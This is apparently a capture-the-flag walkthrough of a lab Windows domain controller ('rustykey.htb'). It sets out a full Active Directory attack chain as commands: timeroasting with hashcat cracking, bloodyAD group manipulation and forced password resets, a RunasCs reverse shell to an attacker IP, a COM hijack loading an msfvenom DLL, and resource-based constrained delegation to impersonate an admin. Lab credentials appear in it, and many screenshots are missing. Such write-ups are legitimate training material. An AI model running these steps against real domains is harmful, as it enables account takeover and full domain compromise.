```
Scope:
10.10.11.75

Creds:
rr.parker / 8#t5HE8L!W3A
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -vvvv -p- -T5 --min-rate=5000 -Pn rusty.htb

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-07-04 03:14:33Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49727/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-04T03:15:25
|_  start_date: N/A
|_clock-skew: 8h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51928/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 22945/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 63867/udp): CLEAN (Failed to receive data)
|   Check 4 (port 40875/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

## Pass the Key - TGT

This was unsuccessful with the current user creds:



`bloodhound-ce-python` didn't work either:



So what now? 



But first I had to make some quick changes in the `/etc/krb5.conf` file:





I can now fix the clock skew and get the `tgt`:

```bash
impacket-getTGT 'rustykey.htb/rr.parker' -dc-ip 10.10.11.75
```





### BloodHound

Time to do some enumeration:

```bash
echo "10.10.11.75 dc.rustykey.htb" | sudo tee -a /etc/hosts 

bloodhound-ce-python -u rr.parker -p '8#t5HE8L!W3A' -ns 10.10.11.75 -c all -k -d rustykey.htb
```



Now I can start graphing it out.



:::note
I couldn't really find anything useful for now, but I will definitely come back here
:::

### User Enum

I then proceded by using `nxc` in conjuncture with `ldap` in order to enumerate all the users on the domain:

```bash
nxc ldap rustykey.htb -u users.txt -p passwords.txt --users -k
```



:::note
The *backupadmin* user stands out immediately, that might be our priv esc later on.
:::

I added all of the above for my users list.

### Timeroasting

So after being stuck on this part I went on and checked out some resources online on what I could do next. Here I found [this article](https://medium.com/@offsecdeer/targeted-timeroasting-stealing-user-hashes-with-ntp-b75c1f71b9ac) on *timeroasting* which I've never heard of before:



Very interesting read, to set up my attack I found [this GitHub repo](https://github.com/SecuraBV/Timeroast) containing a `python` script:



I could run the command easily as follows:

```bash
python3 timeroast.py rustykey.htb
```



I went ahead and put these in a file and started cracking.

### Hashcat (beta)

In order to crack this I needed a beta module of `hashcat` which included mode `31300` that could crack this hash format:


:::note
I could easily find it [here](https://hashcat.net/beta/).
:::

After unzipping the file I started cracking.



```
Rusty88!
```

### Finding Corresponding Object ID

I now had a list of computers that I found through *timeroasting*:



I could check `bloodhound` and see which computers these Object ID's belong to:



I started enumerating them and found the cracked Object ID inside `IT/COMPUTERS/COMPUTER-3`:



Now I could add this computer to my list of owned principals.



I noticed that I could add myself to the **HELPDESK** group.



### AddSelf

I tried it out using `bloodyAD` but got this error:



:::fail
On closer inspection it makes sense that it failed:
Machine accounts **can’t authenticate via NTLM directly** like regular user accounts _in most cases_—they are designed to use **Kerberos tickets** (machine authentication requires a valid TGT).
:::

So, we need to request a TGT again.

```bash
impacket-getTGT 'rustykey.htb/IT-COMPUTER3$' -dc-ip 10.10.11.75
```





I retried the previous command with `-k` but got this error:



I had to specify the `host` in this case, the full command looks as follows:

```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember HELPDESK 'IT-COMPUTER3$'
```



Great! I was able to add myself to the **HELPDESK** group, I can now move on to the next step.



I'd like to exploit *bb.morgan* in order to get RCE, however the following is bugging me:


The **PROTECTED OBJECTS** group might LIKELY interfere in this process. 



Let's try it out.

### ForceChangePassword - bb.morgan



I can easily change the password so that's good.

```
bb.morgan
password123!
```

:::important
We now will have to get another `kerb` ticket in order to actually log in:

:::

Simply requesting the ticket does not work:



This might in fact be due to the constraints of the **PROTECTED OBJECTS** group. Let's remove our user from it.

:::danger
Sometimes it trips out and you'll have to repeat old commands again:

:::

After resending the `add groupMember` command I issued the `remove groupMember` command for the **PROTECTED OBJECTS** group:

```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'IT'
```



And now I can send the password change and TGT commands again:

```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password 'bb.morgan' 'P@ssword123!'

impacket-getTGT 'rustykey.htb/bb.morgan':'P@ssword123!' -dc-ip 10.10.11.75
```



# Foothold
## Shell as bb.morgan

First I export the `kerberos` ticket and log into `winrm` via the same terminal.



And now I can go ahead and login via `evil-winrm`:


### user.txt



## Enumeration

Furthermore I find the following:



:::note
Other than that my privs are absolutely dog tier:

:::



### PDF



Looks like we need to move Laterally to a member of the **SUPPORT** group in order to take advantage of this situation.



We'll have to remove the group from the **PROTECTED OBJECTS** first of all, then *ForceChange* the password of *ee.reed*.

## Lateral Movement
### ForceChangePassword - ee.reed

```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember HELPDESK 'IT-COMPUTER3$'
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
```



```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password 'ee.reed' 'P@ssword123!'
impacket-getTGT 'rustykey.htb/ee.reed':'P@ssword123!' -dc-ip 10.10.11.75
```



However this is where I ran into a problem:



Eventhough I changed the password correctly and exported the ticket I could still not login.

### RunasCs

I downloaded the `runascs` binary and downloaded it over to the target:





I set up a listener:



I then executed the binary as follows:

```bash
.\RunasCs.exe ee.reed P@ssword123! powershell -r 10.10.14.17:4444
```



I got a shell:



:::success
I successfully pivoted to *ee.reed*.
:::

I checked back on `bloodhound` and found that the way to get to *backupadmin* was by exploiting *mm.turner* first:



:::note
I had to move laterally towards *mm.turner* first, my guess would be via the following methods.
:::

I focus in on this part that I found in the PDF.



:::important
- COM objects for **ZIP utilities** (or compression tools) often register CLSIDs with the term "zip".
- Many archiving tools (WinRAR, 7-Zip, built-in ZIP) register COM objects to integrate into context menus (right-click options like "Extract Here", "Compress", etc.).
- If such registry keys are **writable by low-privileged users** (due to the "extended access"), an attacker can **redirect** the CLSID to load _malicious DLLs_ or _payloads_ instead—this is **COM Hijacking**.
:::

If writable, attackers can:

- Replace `InprocServer32` path to point to **malicious DLL**.
- Trigger the vulnerable app or COM call → DLL gets loaded as SYSTEM or elevated context.

Result: **Privilege Escalation via COM Hijack**.

## COM Hijack
### Registry

I went ahead to query the `reg` and view what I could find.

```bash
reg query HKCR\CLSID /s /f "zip"
```



I went ahead and reviewed the ACL's on the `InprocServer32`:

```powershell
Get-Acl -Path "Registry::HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" | Format-List
```



This looks perfect for us, let's construct a `.dll` payload via `msfvenom` which will be used to hijack `InprocServer32`.

### Overwriting InprocServer32



After craftig up the payload I can now upload it.



```shell
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\tools\hax2.dll" /f
```

:::important
The `.dll` payload needs to be put in a location where *every* user has access to it! Otherwise it will not work.
:::



Now that we have access as *mm.turner* we can move on to the next part.



It looks like we'll have to do some delagation magic.

# Privilege Escalation
## Resource Based Constrained Delegation (RBCD)

I'll start off with the following command:

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```



I then went ahead and used `impacket-getST` to get the service ticket for *backupadmin*:

```bash
impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
```



I can now export it and get access with it.



### root.txt




---